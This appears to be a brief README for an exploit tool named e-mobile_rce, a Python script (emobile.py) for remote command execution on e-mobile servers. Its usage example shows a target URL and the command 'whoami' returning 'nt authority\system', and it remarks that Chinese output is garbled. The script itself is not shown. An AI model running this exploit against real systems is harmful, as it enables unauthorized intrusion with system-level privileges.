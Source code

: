 # e-mobile_rce
e-mobile_rce exp 中文乱码
```
python emobile.py
input url: http://xx.xxx.xx.xx:xx/
input commond: whoami
nt authority\system
```

![](1.png)